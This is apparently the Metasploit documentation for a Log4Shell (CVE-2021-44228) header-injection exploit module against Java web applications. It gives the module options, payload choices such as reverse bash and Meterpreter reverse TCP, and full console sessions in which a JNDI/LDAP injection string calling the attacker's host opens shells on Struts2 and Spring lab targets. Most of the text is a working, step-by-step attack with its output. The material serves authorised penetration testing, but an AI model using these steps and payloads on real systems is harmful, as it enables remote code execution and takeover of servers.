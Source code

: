 ## Vulnerable Application
Versions of Apache Log4j2 impacted by CVE-2021-44228 which allow JNDI features used in configuration,
log messages, and parameters, do not protect against attacker controlled LDAP and other JNDI related endpoints.

This module will exploit an HTTP end point with the Log4Shell vulnerability by injecting a format message that
will trigger an LDAP connection to Metasploit and load a payload.

The Automatic target delivers a Java payload using remote class loading. This requires Metasploit to run an HTTP
server in addition to the LDAP server that the target can connect to. The targeted application must have the
trusted code base option enabled for this technique to work.

The non-Automatic targets deliver a payload via a serialized Java object. This does not require Metasploit to
run an HTTP server and instead leverages the LDAP server to deliver the serialized object. The target
application in this case must be compatible with the user-specified JAVA_GADGET_CHAIN option.

## Verification Steps

1. Setup a vulnerable Struts2 instance (see the steps below)
2. Start msfconsole
3. Do: `use exploit/multi/http/log4shell_header_injection`
4. Set the `SRVHOST`, `RHOSTS`, `RPORT` and `TARGETURI` options
    * For Struts2, set `TARGETURI` to `/struts2-showcase/`
5. If using a target other than Automatic, optionally change the `JAVA_GADGET_CHAIN` setting
6. Do: `run`
7. If the target is vulnerable, the payload should be executed


### Apache Struts2 Verification
For Apache Struts2, setup a vulnerable instance using the [steps][1] from the scanner module and use the following
options:

```
set HTTP_HEADER If-Modified-Since
set TARGETURI /struts2-showcase/struts/utils.js
set JAVA_GADGET_CHAIN CommonsBeanutils1
set TARGET Linux
set PAYLOAD cmd/unix/reverse_bash
```

This scenario uses the non-Automatic target to deliver a serialized payload. The target is compatible with the
CommonsBeanutils1 ysoserial payload.

### Spring2 Verification
For Spring2, run the `christophetd/log4shell-vulnerable-app:latest` docker image and use the following options:

```
set HTTP_HEADER X-Api-Version
set TARGETURI /
set TARGET Automatic
set PAYLOAD java/meterpreter/reverse_tcp
```

This scenario uses the Automatic target and remote class loading. The target application has the trusted code base
option enabled, allowing the payload to be loaded.

## Options

### HTTP_HEADER
The HTTP header to inject into. If this option is not specified, the scanner module will be used to automatically
identify a suitable value.

### HTTP_METHOD
The HTTP method to use.

### HTTP_SRVPORT
The HTTP server port. This service is used for remote class loading and is only relevant when the target is Automatic.

### JAVA_GADGET_CHAIN
The ysoserial payload to use for deserialization. This option is only relevant for non-Automatic targets that deliver a
serialized object. The selected value must be compatible with the target application.

## Scenarios

### Apache Struts2
For setup, see the "Apache Struts2 Verification" section above. The `If-Modified-Since` header is automatically detected
by the scanner.

```
msf6 > use exploit/multi/http/log4shell_header_injection
[*] Using configured payload java/shell_reverse_tcp
msf6 exploit(multi/http/log4shell_header_injection) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/log4shell_header_injection) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/log4shell_header_injection) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf6 exploit(multi/http/log4shell_header_injection) > set TARGETURI /struts2-showcase/struts/utils.js
TARGETURI => /struts2-showcase/struts/utils.js
msf6 exploit(multi/http/log4shell_header_injection) > set JAVA_GADGET_CHAIN CommonsBeanutils1
JAVA_GADGET_CHAIN => CommonsBeanutils1
msf6 exploit(multi/http/log4shell_header_injection) > set TARGET Linux
TARGET => Linux
msf6 exploit(multi/http/log4shell_header_injection) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(multi/http/log4shell_header_injection) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(multi/http/log4shell_header_injection) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js (header: If-Modified-Since) (java: BellSoft_11.0.13)
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.250.134%3a389/e31vm2fhlvewa70x3igyp/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.128:8080 - The target is vulnerable.
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js (header: If-Modified-Since) (java: BellSoft_11.0.13)
[+] 192.168.159.128:8080  - Log4Shell found via /struts2-showcase/struts/utils.js/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.250.134%3a389/qn32g1o993yt6s8z91b3ujz/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Automatically identified vulnerable header: If-Modified-Since
[*] Command shell session 1 opened (192.168.250.134:4444 -> 192.168.250.134:54580 ) at 2022-01-07 14:37:25 -0500
[*] Server stopped.

id
uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)
pwd
/
```

### Spring2
For setup, see the "Spring2 Verification" section above. The `X-Api-Version` header is automatically detected by the
scanner.

```
msf6 > use exploit/multi/http/log4shell_header_injection
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/log4shell_header_injection) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/log4shell_header_injection) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/log4shell_header_injection) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf6 exploit(multi/http/log4shell_header_injection) > set HTTP_SRVPORT 80
HTTP_SRVPORT => 80
msf6 exploit(multi/http/log4shell_header_injection) > set TARGETURI /
TARGETURI => /
msf6 exploit(multi/http/log4shell_header_injection) > set TARGET Automatic
TARGET => Automatic
msf6 exploit(multi/http/log4shell_header_injection) > set PAYLOAD java/meterpreter/reverse_tcp
PAYLOAD => java/meterpreter/reverse_tcp
msf6 exploit(multi/http/log4shell_header_injection) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(multi/http/log4shell_header_injection) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via / (header: X-Api-Version) (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.128:8080 - The target is vulnerable.
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.128:8080  - Log4Shell found via / (header: X-Api-Version) (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Automatically identified vulnerable header: X-Api-Version
[*] Serving Java code on: http://192.168.250.134:80/VfrBNShRHj.jar
[*] Sending stage (58082 bytes) to 192.168.250.134
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.134:54582 ) at 2022-01-07 14:42:16 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer    : 6febf4ddad76
OS          : Linux 5.15.12-100.fc34.x86_64 (amd64)
Meterpreter : java/linux
meterpreter > 
```

[1]: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/http/log4shell_scanner.md#apache-struts2-setup
